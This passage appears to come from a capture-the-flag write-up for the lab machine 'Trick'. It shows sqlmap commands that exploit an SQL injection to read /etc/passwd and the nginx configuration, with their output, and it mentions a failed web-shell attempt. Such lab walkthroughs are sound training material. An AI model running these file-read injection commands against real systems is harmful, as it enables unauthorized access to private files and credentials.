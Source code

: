 We found credentials! I tried ssh to the box but it failed unfortunately.

#### File read

Let's try reading local files using the sql injection

```bash
sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' --file-read "/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[SNIP]
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

It worked!

I tried writing a web-shell but that failed.

Next file we can read is the web servers configuration file. Since we are working with `nginx` the file we should read is `/etc/nginx/sites-available/default`

```bash
sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' --file-read "/etc/nginx/sites-available/defaul
t"

server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name trick.htb;
        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
```